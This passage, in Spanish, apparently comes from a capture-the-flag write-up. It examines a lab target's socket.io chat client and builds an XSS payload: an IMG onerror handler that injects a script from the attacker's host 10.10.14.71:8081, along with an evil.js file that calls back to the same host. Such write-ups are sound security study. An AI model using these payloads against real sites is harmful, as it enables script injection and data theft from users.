 Localicé que el script `socket.io.js` en `http://10.129.230.190/socket.io/socket.io.js`

Por lo cual podría simplemente inyectar este script y realizar la comunicación. Pero antes, tengo que ver como se realiza la comunicación desde el cliente.

Encontramos el script `chat.js`
`http://10.129.230.190/restricted/chat.js`

Y vemos este apartado
```javascript
let value;
const res = axios.get(`/user/api/chat`);
const socket = io('/',{withCredentials: true});


//listening for the messages
socket.on('message', (my_message) => {

  //console.log("Received From Server: " + my_message)
  Show_messages_on_screen_of_Server(my_message)

})
```

Esto lo hago para hacerme una idea ya que no había trabajado con websockets antes.

Ahora, tengo que refinar el XSS para poder cargar un archivo javascript malicioso, por ahora este va a ser el archivo.
```shell
$ cat evil.js 
fetch("http://10.10.14.71:8081/injected")
```

Después de hacer unas pruebas en local..
```shell
$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
127.0.0.1 - - [31/Jul/2024 18:46:37] "GET /test.html HTTP/1.1" 200 -
127.0.0.1 - - [31/Jul/2024 18:46:37] "GET / HTTP/1.1" 200 -
127.0.0.1 - - [31/Jul/2024 18:46:37] code 404, message File not found
127.0.0.1 - - [31/Jul/2024 18:46:37] "GET /favicon.ico HTTP/1.1" 404 -
10.10.14.71 - - [31/Jul/2024 18:46:37] "GET /evil.js HTTP/1.1" 200 -
```

Este es mi payload final
```html
└──╼ [★]$ cat test.html 
<IMG SRC="/" onerror="
  var script = document.createElement('script');
  script.src = 'http://10.10.14.71:8081/evil.js';
  document.head.appendChild(script);
">
```

Y perfecto, ahora solo falta hacer el código javascript malicioso.